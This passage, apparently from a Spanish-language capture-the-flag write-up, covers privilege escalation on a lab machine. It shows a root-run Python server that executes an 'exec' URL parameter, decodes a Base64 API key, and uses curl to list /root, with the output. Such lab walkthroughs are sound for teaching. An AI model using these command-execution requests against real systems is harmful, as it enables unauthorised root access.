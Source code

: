 ```python
        else:
            self.send_response(400)
            self.send_header("Content-type", "text/plain")
            self.end_headers()
            self.wfile.write(b"Missing 'exec' parameter in URL")

with socketserver.TCPServer(("", PORT), Handler) as httpd:
    httpd.serve_forever()
```

Y luego viendo los procesos de los puertos que se estan corriendo.

```shell
netstat -punta
```

Info:

```
(No info could be read for "-p": geteuid()=1001 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.11:34191        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    268 172.26.0.2:22           172.26.0.1:39610        ESTABLISHED -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.11:54592        0.0.0.0:*   
```

Por lo que podremos hacer lo siguiente.

Vemos que hay una `API Key` codificada en `Base64` y si la decodificamos sera lo siguiente.

```
we_are_bones_513546516486484
```

Por lo que ahora podremos autenticarnos de la siguiente forma, si queremos listar los archivos de la carpeta de `root` lo haremos de la siguiente forma ya que lo esta ejecutando `root`.

```shell
curl -H "Authorization: Basic we_are_bones_513546516486484" "http://127.0.0.1:8081/?exec=ls%20-la"
```

Info:

```
total 52
drwx------ 1 root root 4096 Jul 23 11:24 .
drwxr-xr-x 1 root root 4096 Aug 12 12:30 ..
-rw------- 1 root root   17 Jul 23 11:47 .bash_history
-rw-r--r-- 1 root root 3106 Apr 22 15:04 .bashrc
drwx------ 2 root root 4096 Jun 16 20:47 .cache
-rw-r--r-- 1 root root   48 Jun 20 17:53 .gitconfig
-rw------- 1 root root   20 Jun 20 18:09 .lesshst
drwxr-xr-x 3 root root 4096 Jun 16 19:10 .local
-rw-r--r-- 1 root root  161 Apr 22 15:04 .profile
-rw-r--r-- 1 root root    0 Jun 20 17:35 .selected_editor
drwx------ 2 root root 4096 Jun 16 19:08 .ssh
-rwxr-xr-x 1 root root   64 Jun 16 20:21 close.sh
-rwxr-xr-x 1 root root   66 Jun 16 20:21 open.sh
```